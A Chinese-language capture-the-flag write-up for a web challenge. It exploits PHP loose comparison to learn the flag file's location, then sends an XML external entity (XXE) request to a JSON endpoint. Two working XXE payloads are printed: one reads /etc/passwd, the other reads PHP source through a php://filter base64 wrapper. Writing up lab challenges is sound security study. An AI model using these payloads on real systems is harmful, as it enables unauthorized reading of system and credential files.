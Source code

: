 # 性感黄阿姨在线聊天
## 考察知识点：
### 1.php弱类型
### 2.json引申xxe漏洞攻击

## 解题思路
### 1. 随便发送数据测试，发送flag时，感觉有蹊跷，抓包查看一下
![image](images/DED9E2F31CF14A28B9433C44483C9A02性感黄阿姨在线聊天1.png)

### 2. 将数据包中的guest,改为admin
![image](images/B2D6627901254D8C987FD7DCD9988A9B性感黄阿姨在线聊天2.png)
发现提示：`{"response":"admin\u4e5f\u4e0d\u884c! \/\/if($name==md5($flag)){flag in ...}"}`

如果发送的name\==md5(flag)则告诉我们flag的位置，此处我们只能考虑php的弱类型，刚好也有个==

大致思路:就是爆破name，只要md5(flag)的前几位为数字，爆破name，就能绕过限制，没看wp真没想出来

当name=357时，返回flag文件。那下一步思路就是进行文件读取。
![image](images/DE10EBFE5B804F7DAF0F1833544C0C20性感黄阿姨在线聊天3.png)

一些弱类型的小测试：

![image](images/06909289FCBA4209B8C2A57836605D00性感黄阿姨在线聊天4.png)

### 3.文件读取有几个思路
#### 3.1 命令执行，代码执行
#### 3.2 文件包含伪协议
#### 3.3 xxe
#### 3.4 ....
### 4.此处发送的数据包为json数据，由json可以联想到xml数据是否也能解析

![image](images/D7C2785A2B02433D807D08A9319071B8性感黄阿姨在线聊天5.png)
看来是解析了，此处没有返回flag文件的路径是因为xml文件的字段为字符串，'357'与'375abc'不相等。

### 5.构造xxe
payload:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe[
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
   <root>
     <name>&xxe;</name>
     <request>flag</request>
   </root>
```

![image](images/D1045268E66B40609192FE590D8D8B5C性感黄阿姨在线聊天6.png)

直接读取f14g_Is_Here.php文件读取不出来，因为php文件中含有<特殊符号，xml解析时报错了

这里可以采用伪协议：

payload：
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE xxe[
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=./_f14g_Is_Here_.php">
]>
   <root>
     <name>&xxe;</name>
     <request>flag</request>
   </root>
```
![image](images/0F0A6CE15A854F37A2D48B47FF6FE5A0性感黄阿姨在线聊天7.png)

### 6.解码得到flag
![image](images/B799E679E2C942E988E65C9F472ED18E性感黄阿姨在线聊天8.png)